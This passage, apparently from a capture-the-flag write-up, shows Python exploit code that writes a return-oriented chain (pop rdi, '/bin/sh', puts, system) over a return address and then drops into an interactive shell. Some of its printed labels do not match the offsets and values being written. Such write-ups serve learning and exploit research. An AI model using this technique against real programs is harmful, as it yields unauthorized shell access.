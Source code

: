 ```python
# write pop_rdi
print(f"\n[*] Writing pop_rdi to  ret: {hex(return_address)}")
write_payload(return_address,pop_rdi)
# write shell
print(f"[*] Writing /bin/sh to  ret+8: {hex(return_address+8)}")
write_payload(return_address+8,binsh)
# write puts
print(f"[*] Writing puts to  ret+16: {hex(return_address+8)}")
write_payload(return_address+16,puts)


# # write pop_rdi
print(f"\n\n[*] Calling System")
print(f"[*] Writing pop_rdi to  ret+24: {hex(return_address+24)}")
write_payload(return_address+24,pop_rdi)

# # write shell
print(f"[*] Writing /bin/sh to  ret+32: {hex(return_address+32)}")
write_payload(return_address+32,binsh)

# # write shell
print(f"[*] Writing /bin/sh to  ret+40: {hex(return_address+40)}")
write_payload(return_address+40,system)
target.recv()
print(" ")
target.sendline(b"")
target.interactive()
```


![](/images/Africa_Bug_Pwn_2024_Writeups/local_shell.png)